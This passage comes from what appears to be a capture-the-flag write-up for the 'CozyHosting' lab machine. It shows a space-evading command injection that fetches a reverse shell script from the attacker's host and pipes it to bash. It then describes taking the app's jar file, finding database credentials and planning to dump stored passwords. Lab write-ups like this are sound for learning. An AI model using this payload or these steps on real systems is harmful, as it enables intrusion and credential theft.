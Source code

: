Tip: execute the python command in the same directory that you have your shell file in, so it easier to access.

```
`curl${IFS}10.10.14.132:8000/revshell${IFS}|${IFS}bash`
```

After executing the command we got a reverse shell!!

![](../assets/images/cozyhosting/20230906200028.png)

We found a jar file which is a java archive file containing data and details about the app:

![](../assets/images/cozyhosting/20230906200641.png)

Lets get it on our local machine....

After we got it using the same way (python3 -m http.server) on the target machine and we used (wget) to get it locally.

we can extract it using jar tool provided with jdk:

![](../assets/images/cozyhosting/20230906201210.png)

After we extract it we will get a large folder full of java classes and data about the app, easier way to analyze it is using vscode, after we did so we found an interesting file:

![](../assets/images/cozyhosting/20230906201813.png)
This file had credentials for the locally running database which is using postgres, so now we can dump the database and get all the passwords!